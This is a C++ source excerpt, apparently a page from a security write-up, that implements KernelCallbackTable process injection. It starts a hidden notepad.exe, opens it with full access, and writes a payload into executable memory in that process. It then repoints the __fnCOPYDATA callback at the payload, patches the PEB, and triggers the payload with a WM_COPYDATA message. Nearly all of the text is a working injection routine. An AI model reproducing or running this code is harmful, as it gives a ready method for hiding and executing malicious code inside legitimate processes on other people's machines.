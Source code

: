```cpp
	si.wShowWindow = SW_HIDE;
	CreateProcess(L"C:\\Windows\\System32\\notepad.exe", NULL, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi);

	// Wait for process initialization
	WaitForInputIdle(pi.hProcess, 1000);

	// Find a window for explorer.exe
	HWND hWindow = FindWindow(L"Notepad", NULL);
	printf("[+] Window Handle: 0x%p\n", hWindow);

	// Obtain the process pid and open it
	DWORD pid;
	GetWindowThreadProcessId(hWindow, &pid);
	printf("[+] Process ID: %d\n", pid);

	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
	printf("[+] Process Handle: 0x%p\n", hProcess);

	// Read PEB and KernelCallBackTable addresses
	PROCESS_BASIC_INFORMATION pbi;
	pNtQueryInformationProcess myNtQueryInformationProcess = (pNtQueryInformationProcess)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryInformationProcess");
	myNtQueryInformationProcess(hProcess, ProcessBasicInformation, &pbi, sizeof(pbi), NULL);

	PEB peb;
	ReadProcessMemory(hProcess, pbi.PebBaseAddress, &peb, sizeof(peb), NULL);
	printf("[+] PEB Address: 0x%p\n", pbi.PebBaseAddress);

	KERNELCALLBACKTABLE kct;
	ReadProcessMemory(hProcess, peb.KernelCallbackTable, &kct, sizeof(kct), NULL);
	printf("[+] KernelCallbackTable Address: 0x%p\n", peb.KernelCallbackTable);

	// Write the payload to remote process
	LPVOID payloadAddr = VirtualAllocEx(hProcess, NULL, payloadSize, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	WriteProcessMemory(hProcess, payloadAddr, payload, payloadSize, NULL);
	printf("[+] Payload Address: 0x%p\n", payloadAddr);

	// 4. Write the new table to the remote process
	LPVOID newKCTAddr = VirtualAllocEx(hProcess, NULL, sizeof(kct), MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE);
	kct.__fnCOPYDATA = (ULONG_PTR)payloadAddr;
	WriteProcessMemory(hProcess, newKCTAddr, &kct, sizeof(kct), NULL);
	printf("[+] __fnCOPYDATA: 0x%p\n", kct.__fnCOPYDATA);

	// Update the PEB
	WriteProcessMemory(hProcess, (PBYTE)pbi.PebBaseAddress + offsetof(PEB, KernelCallbackTable), &newKCTAddr, sizeof(ULONG_PTR), NULL);
	printf("[+] Remote process PEB updated\n");

	// Trigger execution of payload
	COPYDATASTRUCT cds;
	WCHAR msg[] = L"Pwn";
	cds.dwData = 1;
	cds.cbData = lstrlen(msg) * 2;
	cds.lpData = msg;
	SendMessage(hWindow, WM_COPYDATA, (WPARAM)hWindow, (LPARAM)&cds);
	printf("[+] Payload executed\n");
}
```
> _**NOTE:** I already removed the cleanup code (like restoring the original `KernelCallbackTable`) because they don't matter anymore since the target process has already crashed and exited._